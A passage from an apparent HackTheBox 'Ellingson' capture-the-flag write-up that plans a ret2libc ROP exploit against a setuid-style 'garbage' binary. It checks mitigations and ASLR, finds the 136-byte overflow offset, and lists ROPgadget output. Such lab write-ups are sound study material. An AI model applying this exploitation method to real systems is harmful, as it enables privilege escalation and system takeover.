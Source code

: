 Cool, no canaries or PIE are present! Unfortunately NX is enabled, so no shellcode execution.

Next, since we have access to the system, let's check if ASLR is enabled:

```
margo@ellingson:~$ cat /proc/sys/kernel/randomize_va_space 
2
margo@ellingson:~$
```
That's unfortunate. (If the output is 0, ASLR is disabled, otherwise it's enabled) This means that we're going to need to use the traditional ret2libc method to get a libc address leak, calculate offsets based on the libc.so.6 file on the remote system, find address of system() and /bin/sh in libc, and ROP our way to a shell.

How much input do we need before we overwrite the return address? Using pwntool's cyclic(), we can find that pretty easily.

![alt text](imgs/cyclic.PNG "cyclic")

Ok, so we need to scream out 136 A's (or B's, I don't judge) before we overwrite the return address. Since this is an amd64-little-endian binary, we'll need to find ways to set the rdi gadget in order to set our parameters to the functions that we want to return. Using ROPgadget, let's see if we have a pop rdi; ret gadget:
```
root@kali:~/hackthebox/ellingson/privesc# ROPgadget --binary garbage
Gadgets information
============================================================
0x000000000040126e : adc dword ptr [rbp - 4], eax ; nop ; pop rbp ; ret
0x0000000000401199 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x00000000004011cb : add bh, bh ; loopne 0x40123a ; nop ; ret
0x000000000040126b : add bl, dh ; movups xmmword ptr [rbp - 4], xmm0 ; nop ; pop rbp ; ret
0x0000000000401381 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x0000000000401382 : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000401198 : add byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; ret
0x0000000000401069 : add byte ptr [rax], al ; jmp 0x401029
0x0000000000401383 : add byte ptr [rax], al ; .....
...
...


0x00000000004011c6 : or dword ptr [rdi + 0x4040d0], edi ; jmp rax
0x0000000000401780 : out dx, eax ; call qword ptr [r12 + rbx*8]
0x0000000000401794 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401796 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401798 : pop r14 ; pop r15 ; ret
0x000000000040179a : pop r15 ; ret
0x0000000000401793 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
```